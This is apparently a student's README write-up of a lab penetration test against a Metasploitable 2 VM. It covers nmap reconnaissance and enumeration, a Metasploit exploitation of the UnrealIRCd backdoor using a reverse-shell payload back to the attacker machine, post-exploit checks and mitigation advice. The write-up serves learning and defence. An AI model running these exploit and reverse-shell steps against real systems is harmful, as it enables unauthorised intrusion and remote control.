


# Red Team Lab – Penetration Testing Metasploitable 2

## 1. Introduction
This project demonstrates a full penetration testing lifecycle against an intentionally vulnerable machine (Metasploitable 2) using Kali Linux as the attacker system. 

The goal was to simulate a real red team assessment by:
- Discovering open services
- Enumerating possible vulnerabilities
- Exploiting one of them to gain access
- Documenting findings as if reporting to a client

**Tools Used:**
- Kali Linux (attacker VM)
- Metasploitable 2 (target VM)
- Nmap (network scanner)
- Metasploit Framework (exploit toolkit)
- Netcat, FTP, and other Linux tools


## 2. Lab Setup

- VirtualBox was used to run two machines:
  - **Attacker**: Kali Linux
  - **Target**: Metasploitable 2

- Both machines were placed on the same **Host-Only Network** so they could communicate directly without internet.

- Verified connectivity:
  ```bash
  ping 192.168.56.102
 

## 3. Reconnaissance

First, I scanned the target to discover open ports and services.

### Full TCP Port Scan
```bash
nmap -p- -T4 -sS --open -oA nmap_full 192.168.56.102

Result:

Found multiple open ports including FTP (21), SSH (22), Telnet (23), SMTP (25), HTTP (80), MySQL (3306), PostgreSQL (5432), VNC (5900), and IRC (6667) etc

These services represent possible attack entry points. 


## 4. Enumeration

Next, I ran a version detection scan on the discovered ports:

    ```bash
    nmap -sV -sC -p 21,22,23,25,53,80,111,139,445,512,513,514,1099,1524,2049,2121,3306,3632,5432,5900,6000,6667,6697,8009,8180,8787,39598,40965,49997,5250 -oA nmap_enum 192.168.56.102





## 5. Exploitation

I chose to target the **UnrealIRCd backdoor** because it is a well-known, easily exploitable vulnerability (CVE-2010-2075). This service was running on port 6667.

### Steps:
1. Launched Metasploit:
   ```bash
   msfconsole

2. selected the exploit module:
   ```bash
   exploit/unix/irc/unreal_ircd_3281_backdoor
3. Set the target host
   ```bash
   set RHOST 192.168.56.102
4. Set payload (reverse shell):
   ```bash
   set PAYLOAD cmd/unix/reverse
5. Set local host
   ```bash
   set LHOST 192.168.56.101
6. Ran the exploit
   ```bash
   exploit

Result: Successfully gained a remote shell on a Metasploitable machine


6. Post-Exploit

After gaining shell access, I confirmed control over the target system.

```bash
whoami
name -a
pwd
ls -la


## 7. Mitigation

The vulnerabilities exploited here are well-known and easily fixed:
- **UnrealIRCd Backdoor**: Use updated versions of IRC software and verify integrity of downloads.
- **vsFTPd 2.3.4**: Upgrade to a secure version without backdoor.
- **General Advice**:
  - Regularly patch and update software.
  - Disable unnecessary services.
  - Use firewalls to restrict access.
  - Monitor for unusual traffic.


## 8. Lessons Learned

From this red team exercise, I learned:
- How to set up a penetration testing lab with Kali + Metasploitable
- How to scan and enumerate services using Nmap
- How to identify vulnerable services by version numbers
- How to use Metasploit to exploit a vulnerability and gain access
- The importance of proper patch management and secure configurations

This project reflects a real-world penetration testing workflow, even though the target machine was intentionally vulnerable. It demonstrates the value of combining reconnaissance, exploitation, and reporting to simulate a professional red team engagement.
